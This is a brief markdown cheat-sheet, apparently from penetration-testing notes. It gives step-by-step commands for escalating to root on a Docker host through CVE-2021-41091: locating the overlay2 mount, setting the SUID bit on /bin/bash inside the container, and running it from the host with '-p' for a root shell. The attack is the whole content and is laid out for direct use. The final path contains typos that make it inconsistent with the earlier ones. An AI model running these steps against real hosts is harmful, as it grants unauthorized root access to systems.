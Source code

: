```yaml
---
title: Moby Docker Engine PrivEsc
description: 
tags:
    - Container
    - Privilege Escalation
refs:
date: 2023-05-02
draft: false
---
```


## Directory Traversal & Arbitrary Command Execution ([CVE-2021-41091](https://www.suse.com/security/cve/CVE-2021-41091.html) )

### 1. Find Docker Container Directory

First off, find the directory which the docker container mounted

```bash
findmnt

# Results e.g.
/var/lib/docker/overlay2/abcdef...xyz/merged
```

Assume the directory above found, we can investigate in the directory.

```bash
ls -la /var/lib/docker/overlay2/abcdef...xyz/merged/
```

### 2. Prepare SUID Binary in Container

If we can be root in the docker container, set uid arbitrary binary as below. Please note that we need to do that in the container, not the real host.

```bash
chmod u+s /bin/bash
```

### 3. Execute the SUID Binary in Real Host

Back to the real host machine again, execute the binary which we set uid to privilege escalation.

```bash
/var/lib/docker/voerlay2/abdef...xyz/merged/bin/bash -p
```

We should get a root shell.
